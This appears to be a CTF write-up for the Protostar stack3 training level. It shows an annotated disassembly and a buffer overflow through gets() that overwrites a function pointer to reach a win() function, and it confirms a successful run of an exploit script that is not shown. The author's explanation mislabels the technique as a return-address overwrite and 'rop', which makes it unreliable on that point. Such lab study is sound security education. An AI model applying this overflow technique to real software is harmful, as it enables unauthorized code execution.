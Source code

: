 # STACK 3

## run the executable

	../stack3$ ./stack3

	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

	calling function pointer, jumping to 0x61616161
	Segmentation fault (core dumped)
	../stack3$


## look at the machine code

`../stack3$ objdump -M intel -d stack3 > stack3.asm`
```asm
/*
			Variable Dictionary
	var1 = esp+0x5c
	var2 = esp+0x1c
	var3 = esp+0x4

*/
08048424 <win>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 ec 18             	sub    esp,0x18
 804842a:	c7 04 24 40 85 04 08 	mov    DWORD PTR [esp],0x8048540
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave
 8048437:	c3                   	ret

08048438 <main>:
 8048438:	55                   	push   ebp
 8048439:	89 e5                	mov    ebp,esp
 804843b:	83 e4 f0             	and    esp,0xfffffff0
 804843e:	83 ec 60             	sub    esp,0x60
 8048441:	c7 44 24 5c 00 00 00 	mov    DWORD PTR [esp+0x5c],0x0  #var1=0
 8048449:	8d 44 24 1c          	lea    eax,[esp+0x1c]  ##load var2
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 db fe ff ff       	call   8048330 <gets@plt>
 8048455:	83 7c 24 5c 00       	cmp    DWORD PTR [esp+0x5c],0x0  //if var1 != 0
 804845a:	74 1b                	je     8048477 <main+0x3f>  ///jump to return
 804845c:	b8 60 85 04 08       	mov    eax,0x8048560

 									//move var1 into temp registry
 8048461:	8b 54 24 5c          	mov    edx,DWORD PTR [esp+0x5c]

									//var3 = var1
 8048465:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048469:	89 04 24             	mov    DWORD PTR [esp],eax
 804846c:	e8 df fe ff ff       	call   8048350 <printf@plt>
 8048471:	8b 44 24 5c          	mov    eax,DWORD PTR [esp+0x5c]
 8048475:	ff d0                	call   eax
 8048477:	c9                   	leave
 8048478:	c3                   	ret
 8048479:	90                   	nop
```


Straight away there is some function called win, and the assumption will be that we must return it (rop) `08048424 <win>:`

so for this code since var1 is on the stack and the return address was pushed before the local parameter was pushed, the overflow will overwritre the return adress

Looking more at this the python code will be hosted in exploit.py


## exploit vulnerability

```
kettle@OfKetchup:~/git_repos/ctf.git/protostar/stack/stack3$ python exploit.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
